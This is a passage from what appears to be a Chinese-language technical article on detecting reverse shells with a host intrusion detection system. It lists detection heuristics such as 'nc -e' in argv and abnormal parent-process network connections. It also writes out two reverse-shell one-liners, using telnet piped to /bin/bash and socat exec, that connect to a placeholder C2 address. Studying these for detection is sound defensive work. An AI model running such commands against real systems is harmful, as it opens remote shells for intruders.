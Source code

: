 很不幸，和之前的状况并不一样，但是我们依然可以利用如：

* argv是`nc -e`
* bash的父进程是`nc`
* bash的进程或者其父进程存在异常的网络连接
* 跟踪stdin/out的pipe，尝试检测最终pipe连接的进程是否具有异常的网络连接

等其他方式来检测，但是如果你是使用AgentSmith-HIDS的话可以有其他的检测方式，我们后面再说。



#### 5.进阶版本(1)

` telnet c2_ip c2_port 0<SOME_DEVNAME | /bin/bash 1>SOME_DEVNAME`

![7](7.png)

我们看下bash进程的stdin/stdout：

![8](8.png)



#### 5.进阶版本(2)

`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:c2_ip:c2_port`

![9](9.png)
